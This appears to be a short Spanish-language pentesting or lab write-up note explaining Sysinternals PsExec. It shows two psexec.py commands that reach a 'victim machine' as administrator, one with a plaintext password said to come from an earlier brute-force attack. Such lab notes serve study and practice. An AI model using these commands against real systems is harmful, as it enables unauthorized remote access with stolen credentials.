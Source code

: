 PSexec es una herramienta de línea de comandos desarrollada por Sysinternals (ahora parte de Microsoft) que permite ejecutar comandos de forma remota en computadoras Windows. Es útil para administradores de sistemas que necesitan ejecutar tareas en máquinas remotas sin tener que estar físicamente presentes en ellas. Con PSexec, puedes ejecutar programas, scripts o comandos en una computadora remota desde tu propia máquina.

Con el usuarios y la contraseña obtenida previamente con el ataque de fuerza bruta accederemos via psexec con el siguiente comando
```Bash
psexec.py Administrator@10.2.30.5
```
![[Pasted image 20240308083233.png]]

# Acceder a la maquina victima con psexec
```Bash
python3 psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.29.151
```
![[Pasted image 20240522114857.png]]